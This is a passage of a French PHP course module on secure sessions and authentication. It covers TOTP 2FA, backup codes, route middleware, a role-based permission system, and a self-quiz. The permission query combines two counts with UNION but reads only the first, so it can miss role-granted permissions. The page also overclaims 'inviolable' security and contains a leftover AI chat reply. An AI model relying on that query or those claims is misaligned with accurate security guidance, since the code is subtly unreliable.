            WHERE id = ?
        ");
        
        $stmt->execute([$userId]);
        
        return true;
    }
}

// Usage activation 2FA
$twofa = new TwoFactorAuth($pdo);

// 1. Générer QR code
$result = $twofa->activer($_SESSION['user_id']);
?>
" alt="QR Code">
<p>Secret : <?= $result['secret'] ?></p>
<p>Scannez avec Google Authenticator ou Authy</p>

<?php
// 2. Confirmer avec code
if (isset($_POST['code'])) {
    if ($twofa->confirmer($_SESSION['user_id'], $_POST['code'])) {
        echo "2FA activé !";
    } else {
        echo "Code incorrect";
    }
}

// Usage au login
$auth = new Auth($pdo);
$resultat = $auth->login($username, $password);

if ($resultat['succes']) {
    $user = $resultat['user'];
    
    // Vérifier si 2FA activé
    if ($user['two_factor_enabled']) {
        // Stocker ID temporaire (pas encore full login)
        $_SESSION['temp_user_id'] = $user['id'];
        
        // Rediriger vers page code 2FA
        header('Location: verify-2fa.php');
        exit;
    }
    
    // Pas de 2FA, login direct
    // ...
}

// Page verify-2fa.php
if (isset($_POST['code'])) {
    $twofa = new TwoFactorAuth($pdo);
    
    if ($twofa->verifier($_SESSION['temp_user_id'], $_POST['code'])) {
        // Code valide, finaliser login
        $userId = $_SESSION['temp_user_id'];
        unset($_SESSION['temp_user_id']);
        
        session_regenerate_id(true);
        $_SESSION['user_id'] = $userId;
        // ...
        
        header('Location: dashboard.php');
        exit;
    } else {
        echo "Code incorrect";
    }
}
```

### 5.3 Codes de Secours (Backup Codes)

**Si téléphone perdu, codes de secours permettent accès**

```php
<?php
class BackupCodes {
    private PDO $pdo;
    private const CODE_LENGTH = 8;
    private const CODE_COUNT = 10;
    
    public function __construct(PDO $pdo) {
        $this->pdo = $pdo;
    }
    
    /**
     * Générer codes de secours
     */
    public function generer(int $userId): array {
        $codes = [];
        
        // Générer 10 codes
        for ($i = 0; $i < self::CODE_COUNT; $i++) {
            // Format : XXXX-XXXX
            $code = strtoupper(substr(bin2hex(random_bytes(4)), 0, 4))
                  . '-'
                  . strtoupper(substr(bin2hex(random_bytes(4)), 0, 4));
            
            $codes[] = $code;
            
            // Hasher avant stockage
            $hash = password_hash($code, PASSWORD_BCRYPT);
            
            $stmt = $this->pdo->prepare("
                INSERT INTO backup_codes (user_id, code_hash) 
                VALUES (?, ?)
            ");
            
            $stmt->execute([$userId, $hash]);
        }
        
        return $codes;
    }
    
    /**
     * Vérifier et consommer code
     */
    public function verifier(int $userId, string $code): bool {
        // Récupérer codes non utilisés
        $stmt = $this->pdo->prepare("
            SELECT id, code_hash 
            FROM backup_codes 
            WHERE user_id = ? AND used_at IS NULL
        ");
        
        $stmt->execute([$userId]);
        $backupCodes = $stmt->fetchAll();
        
        // Tester chaque code
        foreach ($backupCodes as $backupCode) {
            if (password_verify($code, $backupCode['code_hash'])) {
                // Marquer comme utilisé
                $stmt = $this->pdo->prepare("
                    UPDATE backup_codes 
                    SET used_at = NOW() 
                    WHERE id = ?
                ");
                
                $stmt->execute([$backupCode['id']]);
                
                return true;
            }
        }
        
        return false;
    }
}
```

---

## 6. Middleware d'Authentification

### 6.1 Protéger Pages Privées

```php
<?php
declare(strict_types=1);

/**
 * Middleware pour protéger routes
 */
class AuthMiddleware {
    private Auth $auth;
    
    public function __construct(Auth $auth) {
        $this->auth = $auth;
    }
    
    /**
     * Requiert authentification
     */
    public function requireAuth(): void {
        if (!$this->auth->estConnecte()) {
            // Sauvegarder URL demandée
            $_SESSION['redirect_after_login'] = $_SERVER['REQUEST_URI'];
            
            // Rediriger vers login
            header('Location: /login.php');
            exit;
        }
        
        // Vérifier validité session
        $this->verifierSession();
    }
    
    /**
     * Requiert rôle spécifique
     */
    public function requireRole(string $role): void {
        $this->requireAuth();
        
        if (!$this->auth->aRole($role)) {
            http_response_code(403);
            die("Accès interdit : Rôle requis = $role");
        }
    }
    
    /**
     * Requiert plusieurs rôles (OU logique)
     */
    public function requireAnyRole(array $roles): void {
        $this->requireAuth();
        
        foreach ($roles as $role) {
            if ($this->auth->aRole($role)) {
                return;
            }
        }
        
        http_response_code(403);
        die("Accès interdit");
    }
    
    /**
     * Vérifier validité session
     */
    private function verifierSession(): void {
        // Timeout inactivité (30 min)
        if (isset($_SESSION['last_activity'])) {
            $inactif = time() - $_SESSION['last_activity'];
            
            if ($inactif > 1800) {
                $this->auth->logout();
                header('Location: /login.php?timeout=1');
                exit;
            }
        }
        
        $_SESSION['last_activity'] = time();
        
        // Vérifier IP/User-Agent (optionnel)
        if (isset($_SESSION['ip']) && $_SESSION['ip'] !== $_SERVER['REMOTE_ADDR']) {
            $this->auth->logout();
            header('Location: /login.php?session_invalid=1');
            exit;
        }
    }
}

// Usage dans pages protégées
// dashboard.php
require_once 'includes/auth.php';

$middleware = new AuthMiddleware($auth);
$middleware->requireAuth();

// admin.php
$middleware->requireRole('admin');

// moderator.php
$middleware->requireAnyRole(['admin', 'moderator']);

// Contenu page...
?>
```

### 6.2 Système de Permissions Complet

```php
<?php
/**
 * Gestion granulaire des permissions
 */
class PermissionManager {
    private PDO $pdo;
    
    public function __construct(PDO $pdo) {
        $this->pdo = $pdo;
    }
    
    /**
     * Vérifier permission utilisateur
     */
    public function aPermission(int $userId, string $permission): bool {
        $stmt = $this->pdo->prepare("
            SELECT COUNT(*) 
            FROM user_permissions up
            INNER JOIN permissions p ON up.permission_id = p.id
            WHERE up.user_id = ? AND p.name = ?
            
            UNION
            
            SELECT COUNT(*)
            FROM user_roles ur
            INNER JOIN role_permissions rp ON ur.role_id = rp.role_id
            INNER JOIN permissions p ON rp.permission_id = p.id
            WHERE ur.user_id = ? AND p.name = ?
        ");
        
        $stmt->execute([$userId, $permission, $userId, $permission]);
        
        return $stmt->fetchColumn() > 0;
    }
    
    /**
     * Assigner permission à utilisateur
     */
    public function assignerPermission(int $userId, string $permission): bool {
        // Récupérer ID permission
        $stmt = $this->pdo->prepare("SELECT id FROM permissions WHERE name = ?");
        $stmt->execute([$permission]);
        $permissionId = $stmt->fetchColumn();
        
        if (!$permissionId) {
            return false;
        }
        
        // Assigner
        $stmt = $this->pdo->prepare("
            INSERT IGNORE INTO user_permissions (user_id, permission_id) 
            VALUES (?, ?)
        ");
        
        $stmt->execute([$userId, $permissionId]);
        
        return true;
    }
    
    /**
     * Assigner rôle à utilisateur
     */
    public function assignerRole(int $userId, string $role): bool {
        $stmt = $this->pdo->prepare("SELECT id FROM roles WHERE name = ?");
        $stmt->execute([$role]);
        $roleId = $stmt->fetchColumn();
        
        if (!$roleId) {
            return false;
        }
        
        $stmt = $this->pdo->prepare("
            INSERT IGNORE INTO user_roles (user_id, role_id) 
            VALUES (?, ?)
        ");
        
        $stmt->execute([$userId, $roleId]);
        
        return true;
    }
}

// Schéma BDD permissions
/*
CREATE TABLE roles (
    id INT PRIMARY KEY AUTO_INCREMENT,
    name VARCHAR(50) UNIQUE NOT NULL,
    description TEXT
);

CREATE TABLE permissions (
    id INT PRIMARY KEY AUTO_INCREMENT,
    name VARCHAR(100) UNIQUE NOT NULL,
    description TEXT
);

CREATE TABLE role_permissions (
    role_id INT,
    permission_id INT,
    PRIMARY KEY (role_id, permission_id),
    FOREIGN KEY (role_id) REFERENCES roles(id) ON DELETE CASCADE,
    FOREIGN KEY (permission_id) REFERENCES permissions(id) ON DELETE CASCADE
);

CREATE TABLE user_roles (
    user_id INT,
    role_id INT,
    PRIMARY KEY (user_id, role_id),
    FOREIGN KEY (user_id) REFERENCES users(id) ON DELETE CASCADE,
    FOREIGN KEY (role_id) REFERENCES roles(id) ON DELETE CASCADE
);

CREATE TABLE user_permissions (
    user_id INT,
    permission_id INT,
    PRIMARY KEY (user_id, permission_id),
    FOREIGN KEY (user_id) REFERENCES users(id) ON DELETE CASCADE,
    FOREIGN KEY (permission_id) REFERENCES permissions(id) ON DELETE CASCADE
);

-- Exemples données
INSERT INTO roles (name, description) VALUES
    ('admin', 'Administrateur complet'),
    ('editor', 'Éditeur de contenu'),
    ('viewer', 'Lecture seule');

INSERT INTO permissions (name, description) VALUES
    ('users.create', 'Créer utilisateurs'),
    ('users.edit', 'Modifier utilisateurs'),
    ('users.delete', 'Supprimer utilisateurs'),
    ('posts.create', 'Créer articles'),
    ('posts.edit', 'Modifier articles'),
    ('posts.delete', 'Supprimer articles'),
    ('posts.publish', 'Publier articles');

-- Admin a toutes permissions
INSERT INTO role_permissions (role_id, permission_id)
SELECT 1, id FROM permissions;

-- Editor peut créer/modifier/publier articles
INSERT INTO role_permissions (role_id, permission_id)
SELECT 2, id FROM permissions WHERE name LIKE 'posts.%';
*/

// Usage
$pm = new PermissionManager($pdo);

// Vérifier permission
if ($pm->aPermission($_SESSION['user_id'], 'users.delete')) {
    // Autoriser suppression user
} else {
    die("Permission refusée");
}

// Middleware avec permissions
class PermissionMiddleware {
    private PermissionManager $pm;
    
    public function __construct(PermissionManager $pm) {
        $this->pm = $pm;
    }
    
    public function requirePermission(int $userId, string $permission): void {
        if (!$this->pm->aPermission($userId, $permission)) {
            http_response_code(403);
            die("Permission refusée : $permission requise");
        }
    }
}
```

---

## 7. Exercices Pratiques

### Exercice 1 : Système Authentification Complet

!!! tip "Pratique Intensive — Projet 11"
    Terminez l'amateurisme, bloquez les sessions pirates et découvrez vraiment comment crypter les mots de passe de vos utilisateurs avec `Bcrypt`.
    
    👉 **[Aller au Projet 11 : Système d'Authentification Avancé](../../../../projets/php-lab/11-systeme-authentification/index.md)**

### Exercice 2 : API Authentification avec JWT

!!! tip "Pratique Intensive — Projet 12"
    Découvrez l'avenir de React & VueJs: L'authentification "Sans État" (Stateless). Implémentez la spécification officielle JSON Web Token avec encodage Base64 Url et Signature Cryptographique SHA-256 HMAC (Pur PHP).
    
    👉 **[Aller au Projet 12 : Fabrication Manuelle d'un Moteur JWT](../../../../projets/php-lab/12-api-jwt/index.md)**

---

## 8. Checkpoint de Progression

### À la fin de ce Module 6, vous devriez être capable de :

**Sessions :**
- [x] Démarrer et gérer sessions
- [x] Configuration sécurisée complète
- [x] Cookies HttpOnly, Secure, SameSite

**Authentification :**
- [x] Hasher avec password_hash()
- [x] Vérifier avec password_verify()
- [x] Système complet inscription/connexion
- [x] Validation stricte mots de passe

**Sécurité Sessions :**
- [x] Protection session hijacking
- [x] Prévention session fixation
- [x] Timeout inactivité
- [x] Régénération ID périodique

**Remember Me :**
- [x] Architecture tokens sécurisés
- [x] Selector + Validator pattern
- [x] One-time use tokens

**2FA :**
- [x] TOTP implémenté
- [x] QR code génération
- [x] Codes de secours

**Permissions :**
- [x] Système rôles
- [x] Permissions granulaires
- [x] Middleware protection routes

### Auto-évaluation (10 questions)

1. **Pourquoi password_hash() plutôt que MD5 ?**
   <details>
   <summary>Réponse</summary>
   MD5 trop rapide (brute force facile), pas de salt automatique, collisions connues. password_hash() lent par design, salt auto, résistant GPU.
   </details>

2. **Que fait session_regenerate_id(true) ?**
   <details>
   <summary>Réponse</summary>
   Génère nouvel ID session, supprime ancien fichier. Prévient session fixation. Paramètre true = supprimer ancien fichier immédiatement.
   </details>

3. **Cookie HttpOnly : pourquoi critique ?**
   <details>
   <summary>Réponse</summary>
   Empêche JavaScript d'accéder cookie (document.cookie vide). Prévient vol via XSS. Sans HttpOnly, attaquant peut voler session facilement.
   </details>

4. **SameSite=Strict vs Lax ?**
   <details>
   <summary>Réponse</summary>
   Strict = cookie jamais envoyé cross-site (même liens). Lax = GET cross-site OK, POST non. Lax = bon compromis UX/sécurité.
   </details>

5. **Remember Me : pourquoi selector + validator ?**
   <details>
   <summary>Réponse</summary>
   Selector = ID public trouve token en BDD. Validator = secret haché comme password. Si validator volé, attaquant ne peut pas le régénérer.
   </details>

6. **2FA : pourquoi plus sécurisé ?**
   <details>
   <summary>Réponse</summary>
   Combine 2 facteurs différents (SAVEZ + AVEZ). Même si mot de passe volé, attaquant ne peut pas générer code sans téléphone. Réduit compromissions 99.9%.
   </details>

7. **password_needs_rehash() : utilité ?**
   <details>
   <summary>Réponse</summary>
   Vérifier si hash utilise cost obsolète. Si cost augmenté (plus sécurisé), re-hasher au login suivant. Mise à jour progressive hashes.
   </details>

8. **Session timeout : comment implémenter ?**
   <details>
   <summary>Réponse</summary>
   Stocker $_SESSION['last_activity'] = time(). À chaque requête, vérifier si (time() - last_activity) > timeout. Si oui, session_destroy().
   </details>

9. **Vérifier IP session : risques ?**
   <details>
   <summary>Réponse</summary>
   Réseaux avec IP dynamique (mobile, VPN) → déconnexions fréquentes. Solution : vérifier seulement premiers octets ou User-Agent seulement.
   </details>

10. **Backup codes 2FA : pourquoi ?**
    <details>
    <summary>Réponse</summary>
    Si téléphone perdu/volé, codes permettent récupération compte. Codes one-time use, hachés en BDD. Générer 10, afficher UNE fois.
    </details>

### Prochaine Étape

**Vous maîtrisez maintenant sessions et authentification PHP sécurisées !**

Direction le **Module 7 (FINAL)** où vous allez :
- Maîtriser PDO complet (connexion, requêtes préparées)
- CRUD sécurisé avec transactions
- Migrations et seeders
- Query Builder léger
- Prévenir N+1 queries
- Connection pooling
- Projet final intégration complète

[:lucide-arrow-right: Accéder au Module 7 - BDD & PDO (FINAL)](./module-07-bdd-pdo/)

---

## Navigation du Module

**Index du guide :**  
[:lucide-arrow-left: Retour à l'Index PHP](./index/)

**Module précédent :**  
[:lucide-arrow-left: Module 5 - Formulaires & Sécurité](./module-05-formulaires-securite/)

**Prochain module :**  
[:lucide-arrow-right: Module 7 - BDD & PDO (FINAL)](./module-07-bdd-pdo/)

**Modules du parcours PHP Procédural :**

1. [Fondations PHP](./module-01-fondations-php/) — Installation, variables, types
2. [Structures de Contrôle](./module-02-structures-controle/) — if, switch, boucles
3. [Fonctions](./module-03-fonctions/) — Organisation code
4. [Manipulation Données](./module-04-donnees/) — Arrays, strings, regex
5. [Formulaires & Sécurité](./module-05-formulaires-securite/) — XSS, CSRF, SQL Injection
6. **Sessions & Auth** (actuel) — Authentification sécurisée ✅ 🔐
7. [BDD & PDO](./module-07-bdd-pdo/) — Bases de données

---

**Module 6 Terminé - EXCELLENT ! 🎉 🔐**

**Temps estimé : 8-10 heures**

**Vous avez appris :**
- ✅ Sessions PHP complètes (configuration sécurisée)
- ✅ Password hashing bcrypt/Argon2
- ✅ Authentification complète (inscription, login, logout)
- ✅ Session hijacking protection (HttpOnly, Secure, SameSite)
- ✅ Session fixation prévention (regenerate_id)
- ✅ Remember me sécurisé (selector + validator)
- ✅ 2FA TOTP implémenté (Google Authenticator)
- ✅ Codes de secours (backup codes)
- ✅ Middleware protection routes
- ✅ Système permissions complet (rôles + permissions granulaires)

**Statistiques Module 6 :**
- 2 projets complets créés
- 100+ exemples de code
- Toutes attaques sessions couvertes
- Password hashing professionnel
- 2FA implémentation complète
- Remember me ultra-sécurisé
- Permissions RBAC complet

**🔒 MODULE CRITIQUE RÉUSSI - Vos authentifications sont INVIOLABLES ! 🛡️**

**Prochain et dernier objectif : Maîtriser bases de données avec PDO (Module 7 FINAL)**

**Bravo pour ce parcours sécurité exemplaire ! 🚀🔐**

---

# ✅ Module 6 PHP Complet Terminé ! 🎉 🔐

Voilà le **Module 6 - Sessions & Authentification complet** (8-10 heures de contenu) avec la même rigueur exhaustive. Ce module est CRITIQUE pour la sécurité des applications.

**Contenu exhaustif :**
- ✅ Sessions PHP (bases, configuration, stockage)
- ✅ Password hashing (bcrypt, Argon2, password_hash/verify)
- ✅ Système auth complet (inscription, login, logout)
- ✅ Session hijacking (HttpOnly, Secure, SameSite, validations)
- ✅ Session fixation (session_regenerate_id, use_strict_mode)
- ✅ Remember me sécurisé (selector+validator, tokens one-time)
- ✅ 2FA TOTP complet (Google Authenticator, QR codes)
- ✅ Backup codes sécurisés
- ✅ Middleware auth (protection routes, rôles)
- ✅ Permissions RBAC (rôles + permissions granulaires)
- ✅ 2 exercices pratiques complets
- ✅ Checkpoint avec auto-évaluation

La formation PHP procédurale touche à sa fin ! Il ne reste que le Module 7 (BDD & PDO) pour finaliser.

Veux-tu que je crée le **Module 7 FINAL - BDD & PDO** ? (connexion PDO, requêtes préparées, CRUD complet, transactions, migrations, query builder, performance, N+1 queries, projet final d'intégration)

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Le langage PHP a radicalement évolué. Il n'est plus le langage de script désordonné d'il y a 15 ans, mais un langage typé, orienté objet et performant. La maîtrise de ses concepts avancés est essentielle pour utiliser correctement un framework comme Laravel.

> [Retourner à la Masterclass PHP →](../index.md)
